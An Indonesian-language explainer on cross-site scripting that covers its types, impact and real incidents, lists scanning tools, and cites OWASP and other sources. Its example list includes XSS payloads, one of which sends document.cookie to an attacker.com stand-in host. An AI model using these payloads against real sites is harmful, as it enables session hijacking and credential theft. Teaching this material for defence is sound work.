




## Mengenal Serangan Cross\-Site\-Scripting \(XSS\) pada Website

Cross\-Site\-Scripting atau yang disingkat XSS adalah serangan berupa code injection yang menanamkan kode/skrip berbahaya di website yang terpercaya\. Serangan ini mengeksploitasi kerentanan XSS untuk mencuri data, mengendalikan sesi pengguna, menjalankan kode jahat, atau digunakan sebagai bagian dari serangan phishing\.





Cross site scripting melakukan serangan injeksi kode pada sisi klien dengan menggunakan sarana halaman website atau web aplikasi\. Peretas akan mengeksekusi skrip berbahaya di browser korban dengan cara memasukkan kode berbahaya ke halaman web atau web aplikasi yang sah\. Serangan ini dapat dilakukan menggunakan JavaScript, VBScript, ActiveX, Flash, dan bahasa sisi klien lainnya\.

Cross site scripting menggunakan aplikasi web untuk menjalankan script berbahaya di dalam browser korban\. Korban secara tidak sadar dapat mendownload dan menjalankan script berbahaya\. Script berbahaya tersebut bisa terdownload karena aplikasi web menampilkan user input tanpa di validasi terlebih dahulu\. Penyerang dapat memasukkan string berupa kode kedalam input web app seperti search, form, dsb\.

## **Jenis\-Jenis Serangan XSS**

### **Reflected XSS \(Non\-Persistent\)**





Reflected XSS terjadi ketika skrip berbahaya dipantulkan dari web aplikasi ke browser korban\. Dapat terjadi ketika input pengguna yang tidak divalidasi dan tidak tersaring lolos sebagai bagian dari output HTML\. Serangan yang berhasil dapat memungkinkan penyerang untuk mengeksekusi HTML dan JavaScript di browser korban\.

### Stored XSS \(Persistent\)





Stored XSS merupakan jenis XSS yang paling merusak\. Dalam stored XSS, skrip yang disuntikkan akan disimpan secara permanen di server target, seperti database, forum pesan, visitor log, dan lain\-lain\.

### DOM\-based XSS





Meruparkan jenis XSS dimana script berbahaya dirender secara dinamis ke dalam DOM \(Document Object Model\) \. Dapat dilakukan dengan menuliskan script atau argumen ke dalam url sebuah website\. Contohnya yaitu http://www\.example\.com/test\.html\#\<script\>alert\(1\)\</script\>\.

**Contoh XSS Script**

- ```<script>…</script>```
- ```\<body onload=alert\(‘test1’\)\>```
- ```\<b onmouseover=alert\(‘Wufff\!’\)\>click me\!\</b\>```
- ```\```
- ```\<script\>document\.location=’ [http://www\.attacker\.com/cgi\-bin/cookie\.cgi](http://www.attacker.com/cgi-bin/cookie.cgi) ? foo=’\+document\.cookie\</script\>```


**Tools yang dapat digunakan untuk melakukan XSS**
- Framework XSS Scanner, ada beberapa contoh aplikasi
- XSSer
- XSStrike
- Shuriken
- Xsscrapy
- KNOXSS
- Beef (Browser Exploitation Framework Project, dapat menyediakan script dan server yang dapat digunakan untuk serangan XSS)

## **Dampak Serangan XSS**

Dampak dari serangan XSS dikatakan sesuai dengan jenis serangannya, untuk XSS jenis reflected dan DOM memiliki dampak kerusakan sedang, dan dapat berdampak parah pada jenis serangan stored XSS\. Dengan menggunakan remote code execution pada browser korban, penyerang dapat melakukan berbagai hal mulai dari pencurian data dan kredensial hingga mengirim malware ke korban\.

### **Contoh kasus serangan XSS**

#### 1. **Facebook**


Pada tahun 2011, terdapat tiga buah celah keamanan berbeda yang ditemukan dalam rentah waktu 10 hari\. Isu XSS kedua merupakan yang terburuk menurut saya karena digunakan untuk mendistribusikan serangan phising dan malware\.

#### 2. **British Airways**

Perusahaan penerbangan mengalami security breach pada tahun 2018 yang mempengaruhi 380\.000 transaksi penerbangan\. Penyerang menggunakan script javascript dan XSS attack untuk melacak data consumer\.

#### 3. **eBay**

Ebay pernah menghadapi banyak serangan XSS, dari December 2015 hingga Januari 2016\. Dengan serangan tersebut penyerang dapat mengakses produk pengguna, mencuri detail pembayaran mereka, menjual produk pengguna dengan harga murah, dll\.

## **Daftar Pustaka**

5 Real\-World Cross Site Scripting Examples\. \(2021\) \. Retrieved 28 February 2022, from [https://websitesecuritystore\.com/blog/real\-world\-cross\-site\-scripting\-examples/](https://websitesecuritystore.com/blog/real-world-cross-site-scripting-examples/#:~:text=As%20the%20name%20implies%2C%20stealing,transactions%2C%20personal%20data%2C%20etc)

[https://www\.softwaretestinghelp\.com/cross\-site\-scripting\-xss\-attack\-test/](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)

XSS Tutorial\. \(2022\) \. Retrieved 28 February 2022, from [https://hackertarget\.com/xss\-tutorial/](https://hackertarget.com/xss-tutorial/)

Cross Site Scripting \(XSS\) Software Attack \| OWASP Foundation\. \(2022\) \. Retrieved 28 February 2022, from [https://owasp\.org/www\-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)

DOM\-Based Cross Site Scripting \(DOM\-XSS\) \. \(2018\) \. Retrieved 28 February 2022, from [https://medium\.com/iocscan/dom\-based\-cross\-site\-scripting\-dom\-xss\-3396453364fd](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)


